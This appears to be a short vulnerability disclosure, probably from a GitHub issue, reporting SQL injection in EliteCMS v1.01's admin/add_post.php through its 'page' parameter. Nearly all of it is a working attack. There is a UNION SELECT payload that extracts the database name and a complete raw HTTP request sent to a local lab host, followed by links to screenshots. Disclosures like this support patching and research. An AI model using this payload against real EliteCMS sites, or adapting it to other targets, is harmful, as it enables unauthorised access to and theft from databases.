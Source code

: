 # Elitecms v1.01 by elitecms has SQL injection

vendors: https://elitecms.net/download.php

Vulnerability File: /admin/add_post.php

Vulnerability location: ip/eliteCMS1.01/admin/add_post.php?page=, page

dbname: elitecms101

[+] Payload: /eliteCMS1.01/admin/add_post.php?page=-3%20union%20select%201,2,3,4,database(),6,7,8,9,10,11--+ // Leak place ---> page

```sql
GET /eliteCMS1.01/admin/add_post.php?page=-3%20union%20select%201,2,3,4,database(),6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167534480-3156430a-4562-432e-9767-d2b3bc3959be.png)

![image](https://user-images.githubusercontent.com/54017627/167534441-9f2c2e51-53c4-4794-b6f9-9b1853734184.png)
